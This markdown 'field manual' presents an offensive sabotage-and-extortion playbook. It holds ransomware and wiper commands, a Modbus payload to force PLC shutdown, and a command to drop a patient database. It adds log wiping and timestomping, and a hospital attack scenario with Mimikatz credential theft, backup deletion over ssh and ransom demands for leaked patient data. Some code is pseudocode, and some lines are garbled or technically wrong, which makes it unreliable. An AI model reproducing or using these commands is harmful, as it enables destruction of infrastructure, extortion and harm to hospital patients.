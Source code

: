 # Field manual: Operation Nutcracker (2025 Edition)

*When you want to leave more than just shells behind – leave chaos.*

## Operational objectives

* Sabotage – Render systems unusable for geopolitical or competitive advantage
* Extortion – Maximize payout pressure through multi-vector attacks
* Plausible Deniability – Burn the house down without leaving fingerprints

## Attack arsenal

### AI-Optimised ransomware (LockBit 5.0 Protocol)

Adaptive encryption engine:

```python
# Pseudocode for ML-driven target selection
if file_extension in ('.sql','.vmx','.backup'):
    encrypt(file)  # Prioritizes DBs/VMs/backups
else:
    bypass(file)   # Skips non-critical files to accelerate encryption
```

Triple extortion playbook:

* Encrypt primary storage
* [exfiltrate](exfiltration.md) to private Tor-based leak site
* Threaten volumetric DDoS during negotiations

### Hybrid Wiper-Ransomware (Blackout Worm variants)

Execution Flow:

```bash
# Phase 1: Backup Destruction (Linux)
shred -n 10 -u /dev/sdX  # DoD 7-pass equivalent

# Phase 2: Ransomware Deployment (Windows)
.\MedusaLocker.exe --extension .chernobyl --note README.html
```

Use `ionice -c 3` to reduce disk I/O visibility during shredding.

### Critical infrastructure sabotage

SCADA/ICS killswitch:

```python
# Modbus TCP payload to override PLC registers
payload = b'\x00\x01\x00\x00\x00\x06\x01\x06\x00\x64\xFF\xFF'  # Force emergency shutdown
```

Database annihilation:

```sql
    DROP DATABASE patient_records WITH NORECOVERY;  # SQL Server persistent damage
```

### Forensic countermeasures

Log Obliteration Kit:

```powershell
# Windows
Clear-EventLog -LogName Security,Application,System
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\WMI\Autologger -Name Start -Value 0

# Linux
find /var/log -type f -exec shred -n 3 {} \;
```

Timestomping:

```bash
touch -r /etc/passwd malicious_file  # Inherits timestamps from legitimate file
```

## Red team exercise: "Hospital Zero" (2025)

**Phase 1: Infiltration**

* Delivery: Malicious ISO masquerading as "Patient_Scan_2987.iso"
* Exploit: CLFS zero-day (CVE-2025-29824) → NT AUTHORITY\SYSTEM

**Phase 2: Domain dominance**

```powershell
# Credential Harvesting
Invoke-Mimikatz -Command '"lsadump::dcsync /domain:corp.hospital /user:Administrator"'

# Lateral Movement
Enter-PSSession -ComputerName DC01 -Credential $creds -Authentication Negotiate
```

**Phase 3: Surgical strikes**

```bash
# Backup Neutraliz
sation
ssh backupadmin@veeam01 "sudo rm -rf /backups/archive/* --no-preserve-root"

# Ransomware Deployment
.\locker.exe --config config.json --timeout 900  # 15-minute encryption sprint
```

***Phase 4: Extortion***

Negotiation channels:

* Primary: Tox Protocol (qTox client)
* Fallback: ProtonMail dead-drop

Payment demand:

* 500 XMR (~$5M) for decryptor
* +200 XMR to suppress 42GB patient data leak

## Blue Team counter-tactics (For OpSec testing)

| Tactic	                | Red Team Evasion Method                         |
|------------------------|-------------------------------------------------|
| Air-gapped backups	    | Veeam credential theft → Remote backup deletion |
| EDR behavioural alerts	 | Process hollowing into `svchost.exe`            |
| Zero Trust policies	   | ADCS relay attacks to forge Kerberos tickets    |

## Lessons from the field

*"In 2025, the most effective attacks look like accidents until it's too late. Your ransomware should be the 
second-worst thing in the victim's timeline."*

## Operational checklist

- ✅ Test wiper modules in QEMU sandboxes before deployment
- ✅ Pre-negotiate XMR escrow channels with dark web brokers
- ✅ Embed false [flags](flag.md) 